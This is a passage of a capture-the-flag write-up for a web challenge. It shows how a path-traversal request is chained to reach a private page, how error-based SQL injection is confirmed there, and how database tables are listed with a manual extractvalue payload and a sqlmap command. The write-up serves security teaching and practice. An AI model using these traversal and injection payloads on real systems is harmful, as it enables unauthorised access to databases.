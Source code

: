 ## Focus on /private/message.php

Now we have the payload `http://CHALL:8090/war-web.php?country=../../../../private/message.php%3f&flag=1` to interact with the `/private/message.php` page and the backend HTTP response when the HTTP response code is `200` within the `img` `src` base64 data.

On `/private/` the commented form is indicatig that the `/private/message.php` page is excpecting a `passcode` GET parameter.
Since we don't know any passcodes let's try: `http://CHALL:8090/war-web.php?country=../../../../private/message.php?passcode=1%3f&flag=1`

![private_message](https://github.com/ChallengeHackDay/2024-qualif/assets/40593456/0e14ddf6-e6ae-454c-b8a1-664e47876138)

Hmm just an empty message table.

From here we can try:
- Bruteforcing the passcode parameter (not necessary)
- Testing the passcode parameter for common web vulnerabilities (when you don't know, always test the classics)

With a simple `'` character in the `passcode` parameter we obtained the following response:
- Payload: `http://CHALL:8090/war-web.php?country=../../../../private/message.php?passcode='%3f&flag=1`
- Backend response: 
`mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?.png')' at line 1 in /var/www/html/private/message.php:73 Stack trace: #0 /var/www/html/private/message.php(73): mysqli_query(Object(mysqli), 'SELECT message_...') #1 {main}`

## SQL Injection and database post exploitation

Now that we have a confirmed SQL Injection when can list the current databases tables and dump their content.
Thanks to the raised mysqli_sql_exception we know it is an error-based injection.

### Manual
- SQL Injection Error Based payload: `1' AND extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))= 'a`
- Full payload: `http://CHALL:8090/war-web.php?country=../../../../private/message.php?passcode=1'+AND+extractvalue(0x0a,concat(0x0a,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+0,1)))=+'a%3f&flag=1`
- Response: `mysqli_sql_exception: XPATH syntax error: '`messages`' in /var/www/html/private/message.php:73 Stack trace: #0 /var/www/html/private/message.php(73): mysqli_query(Object(mysqli), 'SELECT message_...') #1 {main}`

### sqlmap
While setting up our sqlmap we need to configure the injection point and the fact that we need the payload to be URL compliant and post process the response so that sqlmap can understand the base64 data.
- sqlmap command: `sqlmap -u 'http://CHALL:8090/war-web.php?country=../../../../private/message.php?passcode=%INJECT HERE%%3f&flag=1' --technique=E --tamper=space2plus --postprocess=postprocess/b64answer.py --skip-urlencode -v --tables`
